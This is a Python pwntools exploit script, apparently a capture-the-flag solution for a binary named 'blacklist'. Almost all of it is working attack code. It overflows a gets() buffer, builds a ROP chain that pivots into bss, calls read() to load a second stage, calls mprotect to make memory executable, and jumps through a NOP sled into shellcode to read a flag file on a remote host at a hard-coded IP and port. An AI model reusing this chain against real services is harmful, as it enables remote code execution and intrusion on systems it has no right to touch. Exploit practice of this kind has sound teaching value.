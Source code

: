 ```py

def main():
    
    # For our socket shellcode. 
    dataseg = 0x00000000004dd000
    # Just inside read()
    syscall = 0x457a00
    # For stack pivot, because fuck gets()
    pop_rbp = 0x41ed8f
    leave = 0x0000000000401e78

    rop = ROP("./blacklist")
    elf = ELF("./blacklist")
    
    # This is effected by bachars bcuz gets(), so im gonna load a stage2.
    ropchain = flat(
        
        # I CBA dealing with the stack, so bss instead :)
        # read(0, dataseg, 0x1000)
        rop.rdi.address,                                                  
        0,   
        rop.rsi.address,
        dataseg,
        rop.rdx.address,
        0x1000,
        syscall,

        pop_rbp,
        dataseg+0x20, # +0x20 to leave room for filenames n shit
        leave,
            )
    
    # This is not affected by badchars, bcuz read() :).
    rop2 = flat(
        
        path := b"/home/fbi/flag.txt\x00",
        b"A"*(0x20 - (len(path) - 8)),
        
        # shellcode here because rop is annoying. 
        # mprotect(dataseg, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC)
        rop.rax.address,
        0x0a,
        rop.rdi.address,
        dataseg,
        rop.rsi.address,
        0x1000,
        rop.rdx.address,
        7,
        syscall,
        
        # Return into our shellcode...
        # Should srop into the somsled somewhere inside the GOT.
        dataseg+125,
        b"\x90"*50,
        shellcode,
        )

    #p = process("./blacklist")
    # nc 40.71.72.198 1236 
    p = remote("40.71.72.198", 1236)
    #gdb.attach(p, script)

    p.sendline(b"A"*72 + ropchain)
```